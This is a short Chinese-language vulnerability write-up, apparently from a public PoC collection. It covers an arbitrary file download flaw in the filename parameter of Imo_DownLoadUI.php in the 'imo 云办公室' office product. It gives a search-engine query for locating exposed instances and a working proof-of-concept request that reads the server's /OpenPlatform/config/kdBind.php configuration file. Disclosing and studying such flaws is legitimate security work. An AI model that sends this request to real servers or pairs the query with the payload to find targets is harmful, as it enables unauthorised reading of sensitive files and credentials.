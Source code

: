 # imo 云办公室 Imo_DownLoadUI.php 任意文件下载漏洞

## 漏洞描述

imo 云办公室 由于 /file/Placard/upload/Imo_DownLoadUI.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

<a-checkbox checked>imo 云办公室</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="iMO-云办公室"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1645878070559-eaed5393-f82d-4b08-8b95-54e91e5ceae0-20220313162942240.png)

验证POC

```javascript
/file/Placard/upload/Imo_DownLoadUI.php?cid=1&uid=1&type=1&filename=/OpenPlatform/config/kdBind.php
```

![img](../../../.vuepress/public/img/1645878129060-d2500f94-aad9-48fd-9202-9b618cc0f886.png)